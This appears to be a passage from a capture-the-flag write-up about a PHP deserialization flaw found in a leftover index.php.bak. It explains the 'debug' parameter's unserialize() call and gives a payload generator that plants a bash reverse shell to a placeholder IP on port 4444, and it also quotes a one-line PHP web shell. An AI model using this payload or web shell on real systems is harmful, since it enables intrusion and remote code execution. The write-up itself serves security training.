 
We got a `backup` file, let's check it out:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250407133732.png)

We got the `index.php.bak` file, we can visualize the contents of it in order to check for anything unusual:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250407134134.png)

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250407134241.png)

This is highly vulnerable, due to this:

- An attacker can craft a malicious serialized payload and pass it via the `debug` GET parameter (e.g., `?debug=PAYLOAD`).
- The `unserialize()` function will reconstruct the object, triggering the `__destruct()` method of the `FormSubmit` class (or any other class if gadgets exist).
- **Arbitrary File Write**: By controlling `$form_file` and `$message`, an attacker could:
	- Overwrite critical files (e.g., `.htaccess`, `index.php`).       
	- Write a PHP web shell (e.g., `<?php system($_GET['cmd']); ?>`) to gain RCE.


Knowing this, we can proceed to exploitation.


# EXPLOITATION
---

We can do the following:

1. Create a `generate_payload.php` file:

```
<?php
class FormSubmit {
    public $form_file;
    public $message;
}

$payload = new FormSubmit();
$payload->form_file = 'shell.php'; // Filename to create
$payload->message = '<?php exec("/bin/bash -c \'bash -i >& /dev/tcp/IP/4444 0>&1\'"); ?>'; // Reverse shell

echo urlencode(serialize($payload));
?>
```

2. Use the `generate_payload.php` file:

```
php generate_payload.php
```

This will output a URL encoded payload, for example:
